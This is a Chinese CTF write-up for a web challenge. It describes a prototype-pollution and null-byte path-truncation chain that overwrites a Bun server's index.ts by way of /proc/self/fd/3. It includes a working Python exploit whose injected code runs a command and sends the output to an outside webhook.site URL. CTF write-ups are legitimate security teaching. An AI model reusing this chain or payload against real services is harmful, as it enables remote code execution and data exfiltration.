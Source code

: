 `/examples` 提供 prisoner 详细信息，`/convert-to-yaml` 可以将 prisoner 信息写入 yaml 文件。

```typescript
app.post('/convert-to-yaml',
    ...
      const body = c.req.valid('json');
      const data = body.data;
      const signedData = getSignedData(data)
      const signature = body.signature;
      if (!hasValidSignature(signedData, signature)) {
        return c.json({ msg: "signatures do no match!" }, 400);
      }
      const outputPrefix = z.string().parse(signedData.outputPrefix ?? "prisoner");
      const outputFile = `${outputPrefix}-${randomBytes(8).toString("hex")}.yaml`;
    ...
```

提交的数据中没有 `outputPrefix`的值,所以默认是prisoner。如果可以控制`outputPrefix`就可以控制写入的文件名。 这里考虑原型污染，通过添加 `signed.__proto__` 更改`outputPrefix`，且由于 `__proto__` 属性不可枚举，因此不会用于计算签名。 为了能写入yaml以外类型的文件，还需要使用NULL截断之后的文件名。

```typescript
const BANNED_STRINGS = ["app", "src", ".ts", "node", "package", "bun", "home", "etc", "usr", "opt", "tmp", "index", ".sh"];
```

能够写入任意类型文件后可以考虑写入`index.ts`，黑名单中限制了app, src, index等目录或文件名，所以可以利用 `/proc/self/fd/3` 写入 `index.ts`。 最后只需要写入一个不存在的目录即可让bun崩溃然后重启。 exp:

```python
import requests
body = requests.get("http://100.95.136.43:1337/examples").json()["examples"][0]
signature = body["signature"]

body["data"]["signed.__proto__"] = {"outputPrefix":"../../proc/self/fd/3\00"}
payload = {
    "data": {
        "const a": "string = new TextDecoder().decode(Bun.spawnSync([\"/bin/bash\", \"-c\", \"/bin/getflag\"]).stdout);fetch(\"https://webhook.site/2cca7093-c8b0-4659-a39f-d6a6282a35ae/?=\"+a)/*",
        **body["data"],
        "nothing": "nothing */"
    },
    "signature": signature
}
r = requests.post("http://ip:port/convert-to-yaml",json=payload)
body["data"]["signed.__proto__"] = {"outputPrefix":"../../proc/notexist"}
r = requests.post("http://ip:port/convert-to-yaml",json=body)
```


\

\
### （Vqs147）Midnight Sun CTF 2025 **UselessCorp**

1、发现漏洞点
